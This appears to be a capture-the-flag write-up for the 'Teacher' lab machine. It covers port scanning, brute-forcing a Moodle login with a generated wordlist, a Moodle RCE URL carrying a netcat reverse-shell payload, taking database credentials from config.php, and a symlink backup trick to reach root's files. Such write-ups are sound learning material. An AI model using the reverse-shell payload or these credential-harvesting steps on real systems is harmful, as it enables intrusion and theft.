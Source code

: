 # Teacher
### Info:
OS: Linux<br>
IP: 10.10.10.153<br>
Difficulty : Easy<br>
### Enumeration:
```
nmap -sC -sV -oA nmap 10.10.10.53
``` 
gives us the results : <br>
```
root@kali:~/Desktop/boxes/Teacher# cat nmap.nmap 
# Nmap 7.70 scan initiated Wed Mar  6 12:33:46 2019 as: nmap -sC -sV -oA nmap 10.10.10.153
Nmap scan report for 10.10.10.153
Host is up (0.43s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Blackhat highschool

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Mar  6 12:34:07 2019 -- 1 IP address (1 host up) scanned in 20.83 seconds
```
As we see post 80, running dirbuster :
![alt text](https://i.imgur.com/nUvKvgW.png) <br>
In images we find `5.png` which contained:
![alt text](https://i.imgur.com/d6U8rkR.png) <br>
Using this we get the starting password and now we need the last digit. <br>
By python we create a wordlist containing all the possible combinations
```
root@kali:~/Desktop/boxes/Teacher# cat pass.py 
for i in  range(32,126):
    key= chr(i)
    print "Th4C00lTheacha"+key
```
and now using this wordlist via list based sniper attack via burp:
![alt text](https://i.imgur.com/pEGwAGQ.png) <br>
We get that the password is `Th4C00lTheacha#` for the username `giovanni`
<br>
### Exploitation:
Now in the question tab we find an RCE  <br>
Resource : https://blog.ripstech.com/2018/moodle-remote-code-execution/ <br>
And then running :
```
10.10.10.153/moodle/question/question.php?returnurl=/question/edit.php?courseid=
2&appendqnumstring&scrollpos=0&id=5&wizardnow=datasetitems&courseid=2&0=r
m+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+<your
ip>+<your port>+>/tmp/f
```
spawns a www-data shell for us.
<br>
### Privilege Escalation (User):
First of all making the 
Running LinEnum.sh we get : 
![alt text](https://i.imgur.com/gbT4VDb.png) <br>
Seeing MariaDb with Sql means to look for creds somewhere. <br>
Looking into `/var/www/html/moodle/config.php` we get the SQl creds.
![alt text](https://i.imgur.com/jvZ1Fsl.png) <br>
After login we choose the moodle db and we get : 
![alt text](https://i.imgur.com/YBRsWnA.png) <br>
Now we can crack this hash received which equals `expelled` . <br>
By `su giovanni` and entering the pass we get user.
<br>
### Privilege Escalation (Root):
There were 2 folders inside work, tmp and courses. <br>
Tmp had the backup created every now and then from the courses folder. <br>
Via `ln -s /root/ courses` we create a symbolic link and it means that as soon as the folder gets backed up, <br>
it also backup the contents of root.txt <br>
Therefore as soon as a new backup is created and we open it via `tar -xvf backup.tar.gz` we get our root.txt <br>
The root shell can be achieved via : https://youtu.be/5wyvpJa9LdU (see root privesc)
### Gained knowledge:
Moodle RCE <br>
Burp Sniper Attack <br>
Symbolic Link Creation <br>
